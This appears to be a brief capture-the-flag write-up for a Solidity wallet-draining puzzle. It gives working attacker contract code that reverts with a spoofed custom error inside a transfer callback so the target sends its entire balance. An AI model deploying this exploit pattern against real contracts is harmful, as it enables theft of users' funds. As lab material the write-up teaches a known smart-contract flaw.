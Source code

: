 > Would you be able to drain all the balance from his Wallet?

## Picky bugger

We could beg for 10 coins:

```solidity
function requestDonation() external returns(bool enoughBalance){
    // donate 10 coins to requester
    try wallet.donate10(msg.sender) {
        return true;
    } catch (bytes memory err) {
        if (keccak256(abi.encodeWithSignature("NotEnoughBalance()")) == keccak256(err)) {
            // send the coins left
            wallet.transferRemainder(msg.sender);
            return false;
        }
    }
}
```

Or just bug for the whole balance:

```solidity
contract Bug {
    error NotEnoughBalance();

    function notify(uint256 amount) external {
        revert NotEnoughBalance();
    }

    function monez(address target) public {
        Cretin(target).requestDonation();
    }
}
```

The donation reverts because the coin calls back to the requesting contract:

```solidity
if(dest_.isContract()) {
    // notify contract 
    INotifyable(dest_).notify(amount_);
}
```

Which gives an opportunity to complain and empty the samaritan pockets!

However, the contract should refuse 10 coins but not the whole balance:

```solidity
function notify(uint256 amount) external {
    if (amount <= 100) {
        revert NotEnoughBalance();
    }
}
```
